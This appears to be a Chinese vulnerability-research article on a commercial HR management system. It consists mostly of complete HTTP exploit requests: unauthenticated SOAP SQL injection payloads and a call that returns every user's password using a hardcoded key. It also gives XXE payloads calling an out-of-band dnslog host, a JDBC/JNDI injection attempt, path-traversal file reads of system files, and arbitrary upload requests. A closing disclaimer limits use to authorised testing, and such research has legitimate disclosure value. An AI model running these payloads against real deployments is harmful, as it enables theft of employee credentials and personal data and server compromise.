# 某景人事管理系统漏洞挖掘与分析-先知社区

> **来源**: https://xz.aliyun.com/news/18132  
> **文章ID**: 18132

---

###### 路由分析/权限认证

web.xml文件，定义了大部分路由，



其中存在一个filter，这里的版本比较低，此filter的内容大概是一些访问白名单，



这里会加载seivices.xml的配置，





services.xml，XFire是一个Java SOAP框架，

service定义了多个service端点，我们就可以访问serviceClass中的公共方法，如：





```
post：
https://xxx/services/HrChangeInfoService

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" 
                  xmlns:hr="http://www.hjsj.com/HrChangeInfoService">
   <soapenv:Header/>
   <soapenv:Body>
      <hr:getChangeUsers>
         <arg0>value1</arg0>
         <arg1>value2'</arg1>
         <arg2>value3'</arg2>
      </hr:getChangeUsers>
   </soapenv:Body>
</soapenv:Envelope>
```



struts-config.xml，将HTML表单数据与Java对象绑定，



type="com.hrms.struts.action.FrameAction"为处理类，其中包含认证逻辑和路由，

如：<https://xxx/performance/solarterms/specialtask.do>



filter中给services接口设置了白名单，可以直接访问，





因此services.xml中的接口都是未授权，

```
post：
https://xxx/services/HrChangeInfoService

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" 
                  xmlns:hr="http://www.hjsj.com/HrChangeInfoService">
   <soapenv:Header/>
   <soapenv:Body>
      <hr:getChangeUsers>
         <arg0>value1</arg0>
         <arg1>value2'</arg1>
         <arg2>value3'</arg2>
      </hr:getChangeUsers>
   </soapenv:Body>
</soapenv:Envelope>
```



###### 前台sql注入services接口（XFire）


```
POST /services/HrChangeInfoService HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/xml
Cookie: xxx
Content-Length: 392

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" 
                  xmlns:hr="http://www.hjsj.com/HrChangeInfoService">
   <soapenv:Header/>
   <soapenv:Body>
      <hr:getChangeUsers>
         <arg0>
</arg0>
         <arg1>admin';waitfor delay '0:0:10'--</arg1>
         <arg2>1</arg2>
      </hr:getChangeUsers>
   </soapenv:Body>
</soapenv:Envelope>

```

入口函数getChangeUsers，



走到sql语句拼接后，经过一系列调用，











之前的sql语句被prepareStatement执行，预编译的sql语句可控，最终造成了sql注入，



HrpService接口sql注入，

```
POST /services/HrpService HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/xml
Cookie: xxx
Content-Length: 353

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" 
                  xmlns:hr="http://www.hjsj.com/HrpService">
   <soapenv:Header/>
   <soapenv:Body>
      <hr:processResult>
         <arg0>
1);waitfor delay '0:0:5'--
</arg0>
         <arg1></arg1>
      </hr:processResult>
   </soapenv:Body>
</soapenv:Envelope>

```



此接口的其他方法也存在sql注入，

```
POST /services/HrpService HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/xml
Cookie: xxx
Content-Length: 500


<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" 
                  xmlns:hr="http://www.hjsj.com/HrpService">
   <soapenv:Header/>
   <soapenv:Body>
      <hr:getHrInfoByID>
         <arg0>
1
</arg0>
        <arg1>
1';waitfor delay '0:0:10'--
</arg1>
        <arg2>
1
</arg2>
        <arg3>
1
</arg3>
        <arg4>
1
</arg4>
        <arg5>
1
</arg5>
        <arg6>
1
</arg6>
      </hr:getHrInfoByID>
   </soapenv:Body>
</soapenv:Envelope>

```

HrService接口sql注入，

```
POST /services/HrService HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/xml
Cookie: xxx
Content-Length: 356

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" 
                  xmlns:hr="http://www.hjsj.com/HrService">
   <soapenv:Header/>
   <soapenv:Body>
      <hr:removeOrganization>
         <arg0>
aaaaaaaaaaaaaaaaaa';waitfor delay '0:0:10'--
</arg0>
      </hr:removeOrganization>
   </soapenv:Body>
</soapenv:Envelope>

```



services的很多地方存在sql注入，

removeUser、changeUserOrg、validateUserId、getAllOrganizations、getUsersByDeptId、getUsersByOrgId、batchAppend、batchUpdate、batchDelete、

updateEnabled、getCodeIdByCodeDesc、getObjectByParam、isExist、isExecuteSql、initExecuteSql、isProtecting、updateInfoByMap、

batchAppend、batchUpdate、batchDelete、

getKqItem，updateEnabled，isExistOrg、getCodeIdByCodeDesc、isExist，isExecuteSql，................

###### 前台查询所有用户密码-HrpService接口（XFire）

base64解密得到密码，



```
POST /services/HrpService HTTP/1.1
Host: xxx
Cookie: xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/xml
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: close
Content-Length: 392

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" 
                  xmlns:hr="http://www.hjsj.com/HrpService">
   <soapenv:Header/>
   <soapenv:Body>
      <hr:getEToken>
         <arg0>
aaa
</arg0>
         <arg1>
c42YFCcwuJdC3uZF9CNUF/kDRn33hWpx
</arg1>
        <arg2>
bjzz</arg2>
      </hr:getEToken>
   </soapenv:Body>
</soapenv:Envelope>


```

入口getEToken函数，需要满足checkKey条件，因此传入到第二个参数必须为c42YFCcwuJdC3uZF9CNUF/kDRn33hWpx，

UserView var7 = var4.getSetView(var1, "", "false", var6); 会通过我们传入的用户名查询用户所有信息，

最终566行返回用户名和密码的base64密文，





还有任意用户添加接口、查询所有用户接口，

HrService-》createUser getAllUsers

###### 前台xxe-HrpService接口（XFire）


此接口的其他方法也存在xxe，如getHolidayMsg、impInfoByNotice、getRemainHolidays、syncHolidayMsg、updateHolidays方法，xxe-SynToADService-sendSyncMsg等，doPost(com.hjsj.hrms.servlet.template.OutputTemplateDataServlet)

```
POST /services/HrpService HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/xml
Cookie: xxx
Content-Length: 432

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE syscode SYSTEM "http://8b5gf4.dnslog.cn">
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" 
                  xmlns:hr="http://www.hjsj.com/HrpService">
   <soapenv:Header/>
   <soapenv:Body>
      <hr:impInfoByNotice>
         <arg0>
<M><syscode>&send;</syscode></M>
</arg0>
      </hr:impInfoByNotice>
   </soapenv:Body>
</soapenv:Envelope>

```





```
POST /services/HrpService HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/xml
Cookie: xxx
Content-Length: 434

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE syscode SYSTEM "http://8b5gf4.dnslog.cn">
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" 
                  xmlns:hr="http://www.hjsj.com/HrpService">
   <soapenv:Header/>
   <soapenv:Body>
      <hr:Huayu_peWageRecv>
         <arg0>
<M><syscode>&send;</syscode></M>
</arg0>
      </hr:Huayu_peWageRecv>
   </soapenv:Body>
</soapenv:Envelope>

```

###### jdbc注入（不存在db2组件，无法getshell）

SynEmpOrgToERPService-》sendSyncMsg

SynToADService-》sendSyncMsg

```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" 
                  xmlns:hr="http://www.hjsj.com/HrChangeInfoService">
   <soapenv:Header/>
   <soapenv:Body>
      <hr:sendSyncMsg>
         <arg0>
<hr>
<jdbc>
         <datatype>
         db2
         </datatype>
         <username>1
        </username>
         <pass>2
        </pass>
         <ip_addr>
         127.0.0.1
         </ip_addr>
         <port>
         5420
         </port>
         <database>
         BLUDB:clientRerouteServerListJNDIName=ldap://127.0.0.1:8811
         </database>
</jdbc>
</hr>
         </arg0>
      </hr:sendSyncMsg>
   </soapenv:Body>
</soapenv:Envelope>

 DriverManager.getConnection("jdbc:db2://127.0.0.1:50000/BLUDB:clientRerouteServerListJNDIName=ldap://127.0.0.1:1099/evil;");

# jdbc:db2://ip_addr:port/database
```

可以看到getConnection的参数可控，但是此项目没有db2组件，因此getshell失败，





###### 后台任意文件读取-/components/fileupload/upload

com.hjsj.hrms.utils.components.fileupload.servlet.FileUploadServlet

c:/windows/win.ini

```
POST /components/fileupload/upload HTTP/2
Host: xxx
Cookie: xxx
Content-Length: 137
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: zh-CN,zh;q=0.9
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: application/json, text/plain, */*
Content-Type: application/x-www-form-urlencoded
Origin: xxx
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: xxx
Accept-Encoding: gzip, deflate, br
Priority: u=4, i

deleteflag=false&down=true&localname=aaa&path=Iy4ZOyMhERcKEEOGPKbbJgPAATTP3HJDPAATTPPAATTP3HJDPAATTP&filename=P2FN5PpfSGUPAATTP3HJDPAATTP
```

/etc/hosts

```
POST /components/fileupload/upload HTTP/1.1
Host: xxx
Cookie: bosflag=hcm; JSESSIONID=65C5113D881DDF8CE43BC6DC7F2F995A
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: zh-CN,zh;q=0.9
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: */*
Sec-Fetch-Site: same-origin
Content-Type: application/x-www-form-urlencoded
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
Referer: https://xxx
Accept-Encoding: gzip, deflate, br
Priority: u=1
Connection: keep-alive
Content-Length: 114

deleteflag=false&down=true&localname=sadfasf&path=P7oRbyobcGIPAATTP3HJDPAATTP&filename=rPYRZUSNAfMPAATTP3HJDPAATTP
```

可以看到这里将参数解密后拼接到File中，读取路径可控，







加密文件读取路径和文件名，读取服务器的c:/windwos/win.ini，文件读取成功，



###### 后台漏洞（可能存在，未复现）

反序列化，低版本存在，高版本function\_id提示找不到，

|  |  |  |
| --- | --- | --- |
| execute(com.hjsj.hrms.transaction.gz.gz\_accounting.report.GetGzReportDataTrans) | unzipBytes\_object(com.hjsj.hrms.utils.PubFunc) | java.io.ObjectInputStream#readObject |
| execute(com.hjsj.hrms.transaction.gz.gz\_analyse.GzAnalyseExportDataTrans) | unzipBytes\_object(com.hjsj.hrms.utils.PubFunc) | java.io.ObjectInputStream#readObject |
| execute(com.hjsj.hrms.transaction.gz.gz\_analyse.EditTableInfoTrans) | unzipBytes\_object(com.hjsj.hrms.utils.PubFunc) | java.io.ObjectInputStream#readObject |
| execute(com.hjsj.hrms.transaction.gz.gz\_accounting.report.GzReportDataExportTrans) | unzipBytes\_object(com.hjsj.hrms.utils.PubFunc) | java.io.ObjectInputStream#readObject |

```
<?xml version="1.0" encoding="utf-8"?>
<command>
    <function_id>3020130017</function_id>
    <parameters>
        <parameter name="opt" value="1"/>
        <parameter name="rsid" value="2"/>
        <parameter name="rsdtlid" value="3"/>
        <parameter name="isResetSort" value="4"/>
        <parameter name="icur_head_byte" value="aaa"/>
        </parameters>
</command>
```

（普通用户权限）打包源码，文件读取，但是会将原文件删除，因此不复现，

execute(com.hjsj.hrms.transaction.hire.demandPlan.positionDemand.ExportDemandZipTrans)

（服务器查看是否上传成功）zip解压文件上传，

execute(com.hjsj.hrms.module.recruitment.parameter.transaction.ReductionFileTrans)

execute(com.hjsj.hrms.transaction.hire.parameterSet.configureParameter.ReductionFileTrans)

execute(com.hjsj.hrms.transaction.hire.employActualize.employResume.ResumeZipTrans)

```
POST /recruitment/parameter/configureParameter.do HTTP/2
Host: xxx
Content-Length: 577
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Cookie: xxx
Accept-Language: zh-CN,zh;q=0.9
Origin: null
Content-Type: multipart/form-data; Boundary=----Webkitformboundaryjoiis1y7hegw8myy: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

------WebKitFormBoundaryjOIIS1Y7heGW8MyY
Content-Disposition: form-data; name="b_reduction"

b_reduction
------WebKitFormBoundaryjOIIS1Y7heGW8MyY
Content-Disposition: form-data; name="path"

D~3a~2f
------WebKitFormBoundaryjOIIS1Y7heGW8MyY
Content-Disposition: form-data; name="r_file"; filename="ceshi.zip"
Content-Type: application/zip

qqqqqqqqqqqqqqqqPK
JӻZ=QkM	ceshi.txt111PK?
JӻZ=QkM	$ ceshi.txt
 –=‚—ÁÛPK[*
------WebKitFormBoundaryjOIIS1Y7heGW8MyY--

```

```
POST /hire/parameterSet/configureParameter/select_reduction_file.do?b_reduction=xxx&isclose=2&path=D~3a~2f HTTP/2
Host: xxx
Content-Length: 370
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Cookie: xxx
Accept-Language: zh-CN,zh;q=0.9
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryjOIIS1Y7heGW8MyY
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

------WebKitFormBoundaryjOIIS1Y7heGW8MyY
Content-Disposition: form-data; name="r_file"; filename="ceshi.zip"
Content-Type: application/zip

qqqqqqqqqqqqqqqqPK
JӻZ=QkM	ceshi.txt111PK?
JӻZ=QkM	$ ceshi.txt
 –=‚—ÁÛPK[*
------WebKitFormBoundaryjOIIS1Y7heGW8MyY--

```

（需登陆服务器查看路径）任意文件读取（可能是普通用户权限），DisplayCustomerReportExcelFile

```
POST /servlet/DisplayCustomerReportExcelFile HTTP/1.1
Host: xxx
Cookie: xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: xxx
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Content-Type: application/x-www-form-urlencoded
Priority: u=0, i
Te: trailers
Connection: close
Content-Length: 235

filename=~2e~2e~5c~2e~2e~5c~2e~2e~5c~2e~2e~5c~2e~2e~5c~2e~2e~5c~2e~2e~5c~2e~2e~5c~2e~2e~5c~2e~2e~5c~2e~2e~5c~2e~2e~5c~2e~2e~5c~2e~2e~5c~2e~2e~5c~2e~2e~5c~2e~2e~5c~2e~2e~5c~2e~2e~5c~2e~2e~5cwindows~5csystem~33~32~5cdrivers~5cetc~5chosts
```

未实验，文件读取（可能是管理员权限），downboard

```
GET /selfservice/welcome/downboardview?id=Z0DuTtqmt3kPAATTP3HJDPAATTP&ext=/../../../../../../../../../../favicon.ico HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: xxx
Content-Length: 0
```

未实验，文件上传（可能是管理员权限），uploadmediafileservlet

```
POST /train/media/upload HTTP/1.1
Host: xxx
Cookie: xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers
Connection: close
Content-Length: 415

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="keyCode"

61
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="fileType"

j
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="filename"

test.txt
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: image/jpeg

......................... ............... . . . . . . . . . . .  . . .. . . .  . . . . . . . . . . . . . . . . .  . . . . . . . . . . . ....
------WebKitFormBoundary7MA4YWxkTrZu0gW--

```

未实验，文件读取（可能是管理员权限），DisplayOleContent

DisplayOleFile，

```
GET /servlet/DisplayOleContent?filename=&fromflag=11 HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: image/avif,image/webp,image/png,image/svg+xml,image/*;q=0.8,*/*;q=0.5
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: xxx
Priority: u=5, i


```

未实验，文件上传（可能是管理员权限），YUfileUpLoadServlet，注意如果文件重复会覆盖文件导致原文件被删除，

```
GET /servlet/workplan/UpLoadFileServlet HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: image/avif,image/webp,image/png,image/svg+xml,image/*;q=0.8,*/*;q=0.5
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: xxx
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Cookie: xxx
Priority: u=5, i

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="keyCode"

61
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="fileType"

j
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="filename"

test.txt
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: image/jpeg

......................... ............... . . . . . . . . . . .  . . .. . . .  . . . . . . . . . . . . . . . . .  . . . . . . . . . . . ....
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```

未实验，文件上传（可能是管理员权限）

/gz/templateset/gz\_templatelist.do?b\_validateImport=validate

​

免责声明：本文所述漏洞复现方法仅供安全研究及授权测试使用；任何个人/组织须在合法合规前提下实施，严禁用于非法目的。作者不对任何滥用行为及后果负责，如发现新漏洞请及时联系厂商并遵循漏洞披露规则。
